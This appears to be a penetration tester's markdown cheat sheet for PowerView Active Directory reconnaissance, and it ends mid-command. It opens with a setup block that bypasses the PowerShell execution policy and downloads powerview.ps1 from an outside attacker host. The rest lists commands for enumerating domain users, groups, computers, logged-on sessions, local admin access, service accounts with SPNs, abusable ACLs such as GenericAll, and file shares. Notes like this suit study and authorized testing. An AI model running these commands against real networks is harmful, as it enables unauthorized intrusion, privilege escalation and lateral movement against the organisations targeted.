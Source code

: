 ### Setup ([https://powersploit.readthedocs.io/en/latest/Recon/](https://powersploit.readthedocs.io/en/latest/Recon/))
```
powershell -ep bypass

iwr -uri http://192.168.45.154:8000/powerview.ps1 -Outfile powerview.ps1

Import-Module .\PowerView.ps1
```

### Commands

#### Enumerating Domain
```
Get-NetDomain
```
#### Enumerating Users
```
Get-NetUser
Get-NetUser <username>
Get-NetUser | select <attribute>,<attribute>,<attribute>
```
#### Enumerating Groups
```
Get-NetGroup
Get-NetGroup <groupname>
Get-NetGroup | select <attribute>,<attribute>,<attribute>
Get-NetGroup | Where-Object { $_.member -like "<user>*" } | Select-Object cn, member - show all groups member is a apart of.
```
#### Enumerating Computer Information
```
Get-NetComputer
Get-NetComputer | select dnshostname,<attribute>
```

#### Understanding Privileges
```
Find-LocalAdminAccess - attempts to find any computer that the current user has administrative privileges on.
Get-NetSession -ComputerName <computername> - attempts identify which user is logged into what computer.
.\PsLoggedon.exe [\\<computername>](file://%3ccomputername%3e) - enumerates who is logged into a computer.
```
#### Service Accounts
```
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```

#### Enumerating Object Permissions

```
Get-ObjectAcl -Identity <users> - enumerates all objects that has an ACL entry for a particular user.
Convert-SidToName <SID>

#check if user has GeneralAll property this is the highest privilege within AD.
Get-ObjectAcl -Identity "Backup Operators" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

Find-InterestingDomainAcl | select IdentityReferenceName,ActiveDirectoryRights,AceType,ObjectDN,SecurityIdentifier | ?{$_.IdentityReferenceName -NotContains "DnsAdmins"}
```

#### Enumerating Shares

```
Find-DomainShare
net view [\\<hostname/ip>](file://%3chostname/ip%3e)
ls [\\<hostname>\<sharename>\](file://%3chostname%3e/%3csharename%3e/)
cat [\\<hostname>\<sharename>\
```